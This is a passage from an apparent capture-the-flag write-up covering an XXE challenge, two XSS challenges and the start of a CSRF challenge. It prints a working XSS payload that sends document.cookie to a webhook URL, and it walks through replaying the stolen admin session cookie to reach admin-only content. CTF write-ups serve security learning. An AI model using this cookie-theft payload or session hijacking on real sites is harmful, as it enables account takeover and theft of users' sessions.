 ## 15. Jake The Miner
<img width="822" alt="image" src="https://user-images.githubusercontent.com/79892065/158341394-c9323cdb-44a6-4170-828c-e04a65c22b5a.png"><br>
<br>When clicking the submit score button it tells us we need to mine over 1M hashes... and basically thats impossible
<br><img width="326" alt="image" src="https://user-images.githubusercontent.com/79892065/158341482-713e7641-2c40-4e4f-9792-a32050f3ad3a.png"><br>
<br>I was stuck on here for a moment until my friend helped me out
<br>He told me he modified the api request since it said it needed 1 million
<br>Until that i knew it was going to be xxe injection so i tried the following payload using a website https://reqbin.com/
<br><img width="788" alt="image" src="https://user-images.githubusercontent.com/79892065/158342507-47efa9af-6a62-4db7-9829-3b74734e9b73.png"><br>
<br>And ye we got the flag!

## 16. My First XSS 2
The description says that its an upgraded version of the "My First XSS" challenge and can report to admin.<br>
<br><img width="529" alt="image" src="https://user-images.githubusercontent.com/79892065/160345480-c18b3207-b5b6-4109-b487-83d365e534f0.png"><br>
<br>Reporting to admin, probably trying to steal admin cookies?
<br>https://infinitelogins.com/2020/10/13/using-cross-site-scripting-xss-to-steal-cookies/
<br>We can create a webhook in https:/webhook.site
<br>We can also create a payload in the add comment ``<script>document.write('<img src="[WEBHOOKURL]?c='+document.cookie+'" />');</script>``<br>
<br><img width="801" alt="image" src="https://user-images.githubusercontent.com/79892065/160345806-c545f1c2-3dca-4f28-aeca-dd418d3e6e62.png"><br>
<br>Pasting the webhook url in the payload, and submit the payload to the server
<br>After we reload the website, we see the unloaded image<br>
<br><img width="845" alt="image" src="https://user-images.githubusercontent.com/79892065/160345956-a2b48fce-1ea0-4c3a-917b-3442b0f7489f.png"><br>
<br>And checking the webhook site we see it worked! It's successfully stealed our user cookie
<br>We can now press on the "Report Admin" button and the bot should visit the website to let our webhook site steal the cookie
<br><img width="797" alt="image" src="https://user-images.githubusercontent.com/79892065/160346340-301a8522-88a5-4e65-b1b7-99d40e47c05c.png"><br>
<br>And we got the flag!

## 17. XSS 2 Continue
Hint: How to become admin by using the stolen admin cookie?
<br>According to the hint, we need to use the admin cookie to view the secret only avaiable for admin
<br>This is easy! Since I have the "Cookie Editor" extension, we can paste the admin session we stole earlier into the "session" cookie
<br><img width="365" alt="image" src="https://user-images.githubusercontent.com/79892065/160347072-f71acdeb-1918-4c04-8f9b-d096f26b0007.png"><br>
<br>After saving the cookie, reload the page and we can see a section named "Secret"
<br><img width="470" alt="image" src="https://user-images.githubusercontent.com/79892065/160347180-d4e3f50e-2f97-49e1-a7a7-7da91a0403c4.png"><br>
<br>Viewing the secret section we get the flag!

## 18. Admin Dashboard 3
Hint: What is CSRF? 
<br>Hint shows that we need to demonstrate a CSRF attack to the website
<br><img width="582" alt="image" src="https://user-images.githubusercontent.com/79892065/163944769-7cbeddcc-127b-48d0-aed6-88486e0063e6.png"><br>
<br>The website has a login page and a register page, let's register a normal user on this website first
<br><img width="940" alt="image" src="https://user-images.githubusercontent.com/79892065/163944851-57964248-1d1c-47c4-bfeb-cfc2432e1f2d.png"><br>
<br>XSS has been fixed but there's two hints 
* New add Admin user feauture(admin only)
* New report to admin feauture
<br>There's also a report feature so that the bot (admin) would check the website
<br>Checking the source code we see addadmin.php 